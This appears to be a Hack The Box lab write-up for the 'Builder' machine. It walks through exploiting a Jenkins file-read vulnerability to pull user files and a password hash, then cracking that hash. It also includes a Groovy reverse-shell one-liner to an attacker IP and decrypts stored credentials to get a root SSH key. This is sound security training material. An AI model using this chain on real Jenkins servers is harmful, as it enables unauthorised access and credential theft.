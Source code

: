 ```yaml
---
layout: post
title: HTB - builder
date: 2025-03-04 18:42 -0400
---
```


![img]({{ 'builder' | get_machine_avatar }})

# jenkins
## nmap
```bash
~/workspace/projects/htb/builder » sudo nmap -p8080,22 -sC -sV $(cat ip.txt) --min-rate 1024
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-14 16:25 -04
Nmap scan report for builder.htb (10.10.11.10)
Host is up (0.24s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(10.0.18)
|_http-title: Dashboard [Jenkins]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.47 seconds
```

## robots.txt
nothing

## subdomain bruteforce
nothing

## builder.htb
- Running jenkins version 2.441

![img](/assets/img/builder1.png)

- Vulnerable to [CVE-2024-23987](https://github.com/h4x0r-dz/CVE-2024-23897)
  - connect-node subcommand gives a full file read
  - help gives a partial file read

using the [jenkins docker image](https://hub.docker.com/layers/jenkins/jenkins/2.441/images/sha256-01e66c77a577d9c2b09e2e76ed6ef2508d341dc8fa713a272e351e113818d857) as reference we can find:
- default installation at `/var/jenkins_home`
- interesting files:
  - `/var/jenkins_home/users/users.xml`
    - has a list of all users
        - `users/jennifer_12108429903186576833/config.xml`
        - has user password hash
            - `$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a`
  - `/var/jenkins_home/users/credentials.xml`
    - has all the credentials in encrypted form

cracking the hash gives the creds
- `jennifer:princess`

From here there are a lot of options.
I used jenkings cli to get a shell using groovy:

![img](/assets/img/builder2.png)

```bash
» java -jar jenkins-cli.jar -auth jennifer:princess -s http://builder.htb:8080/ groovysh
Groovy Shell (2.4.21, JVM: 17.0.9)
Type ':help' or ':h' for help.
-------------------------------------------------------------------------------
groovy:000> ['/bin/bash', '-c', 'bash -i >& /dev/tcp/10.10.14.37/4444 0>&1'].execute()
```

user flag:

```bash
jenkins@0f52c222a4cc:/$ cat ~/user.txt
cat ~/user.txt
64efe***************************
```

# root 1
`/.dockerenv` exists so probably running inside docker container:

Linpeas shows nothing interesting, probably a true jenkins challenge.

We can use pipelines with the ssh plugin to ssh to the host and get the root flag.

![img](/assets/img/builder3.png)
![img](/assets/img/builder5.png)

# root 2
A second way of solving this is by looking at the secret on /var/jenkins_home/credentials.xml and using groovy to [decrypt it](https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml):
```bash
Groovy Shell (2.4.21, JVM: 17.0.9)
Type ':help' or ':h' for help.
-------------------------------------------------------------------------------
groovy:000> println(hudson.util.Secret.decrypt("{secret}"))
-----BEGIN OPENSSH PRIVATE KEY-----
...
-----END OPENSSH PRIVATE KEY-----
```
then just `ssh -i <PRIV KEY> root@172.17.0.1`

```bash
root@builder:~# cat /root/root.txt
76811***************************
```
